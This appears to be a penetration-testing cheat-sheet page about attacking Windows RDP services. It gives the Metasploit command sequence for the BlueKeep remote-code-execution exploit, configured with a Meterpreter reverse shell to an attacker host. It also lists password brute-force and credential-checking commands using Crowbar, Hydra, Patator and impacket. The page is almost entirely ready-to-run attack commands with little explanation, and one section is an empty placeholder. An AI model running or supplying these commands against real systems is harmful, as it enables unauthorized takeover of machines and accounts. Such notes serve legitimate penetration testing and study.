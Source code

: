 # RDP

## 01 - CVE

### 1.1 - BlueKeep RCE

TODO: Fill this info

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > options

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set targets <target>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rdp_client_ip <fake_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts <target_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost <attacker_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lport <attacker_PORT>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run
```

## 02 - Sticky Keys Backdoor

```

```

## 03 - Default Credentials

Check some common and leaked credentials performing a password dictionary attack against and RDP service with impacket

```
$ rdp_check.py [<domain>/]<username>@<IP>
```

## 04 - Brute Force

> [!WARNING] Proceed with Caution!
> Sometimes RDP servers are configured with **Account Lockout Policy** so be careful what you're doing.

### 4.1 - Crowbar

```
$ crowbar -b rdp -s <IP> -u <username> -C passwords.lst -n 1

$ crowbar -b rdp -U users.lst -C passwords.lst -s <IP>/32
```

### 4.2 - Hydra

```
$ hydra -V -l <username> -p <password> rdp://<IP>/<domain>

$ hydra -V -l <username> -P passwords.txt <IP> rdp
```

### 4.3 - Patator

```
$ patator rdp_login host=<IP> user=<username> password=FILE0 0=passwords.lst -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'
```

### 4.4 - Impacket

```
$ rdp_check.py [<domain>/]"<username>":"<password>"@<IP>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Remote Services/Graphical Remote Program/RDP|Active Fingerprinting: RDP]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Remote Services/Graphical Remote Program/RDP/FreeRDP|Remote Services Exploitation: RDP]]

### Source Repositories

- [ztgrace: sticky_keys_hunter](https://github.com/ztgrace/sticky_keys_hunter)

- [linuz: Sticky Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### Rapid7

- [Rapid7: Metasploit Framework - Bluekeep Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.md)

### Sploitify

- [Sploitify: Bluekeep CVE-2019-0708](https://sploitify.haxx.it/exploits/2019/CVE-2019-0708/)